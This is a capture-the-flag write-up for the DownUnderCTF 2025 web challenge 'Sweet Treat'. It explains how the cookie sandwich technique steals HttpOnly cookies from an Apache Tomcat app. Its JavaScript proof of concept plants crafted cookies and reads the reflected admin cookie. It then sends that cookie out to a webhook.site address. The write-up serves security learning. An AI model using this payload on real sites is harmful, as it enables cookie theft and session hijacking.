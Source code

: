 Category: web

Challenge Name: Sweet Treat

## TLDR

The challenge is about using the cookie sandwich technique from [Zakhar Fedotkin](https://portswigger.net/research/stealing-httponly-cookies-with-the-cookie-sandwich-technique) to steal HttpOnly cookies. This is possible because the application is running on Apache Tomcat, which falls back to RFC2109 parsing if the cookie starts with `$Version=1`.

![cookie sandwich](/CTF-writeups/2025/downunderctf-2025/cookie-sandwich.png)

To exfiltrate the admin cookie, we need to find an endpoint that reflects cookie values. There are multiple XSSs in the challenge but the solution is to use the `language` cookie which is reflected in the html lang attribute.

## PoC

```html
<script>
async function sandwich(target, cookie) {
    const iframe = document.createElement('iframe');

    const url = new URL(target);
    const domain = url.hostname;
    const path = url.pathname;

    iframe.src = target;
    iframe.style.display = 'none';
    document.body.appendChild(iframe);
    iframe.onload = async () => {
        document.cookie = `$Version=1; domain=${domain}; path=${path};`;
        document.cookie = `${cookie}="FOO; domain=${domain}; path=${path};`;
        document.cookie = `dummy=qaz"; domain=${domain}; path=/;`;
        try {
            const response = await fetch(`${target}`, {
                credentials: 'include',
            });
            const responseData = await response.text();
            const regex = /<html[^>]*>/;
            // const regex = /<html lang="([^"]*)">/;
            const match = responseData.match(regex);

            window.location.href = 'http://webhook.site/8aa41a0a-ce2d-46e5-83a8-9d1616e33f03/' + btoa(match[0]);

        } catch (error) {
        }
    };
}

setTimeout(sandwich, 100, 'http://127.0.0.1:8080/index.jsp', 'language');
</script>
```

Flag: DUCTF{1_th0ught_y0u_c0uldnt_st34l_th3m}
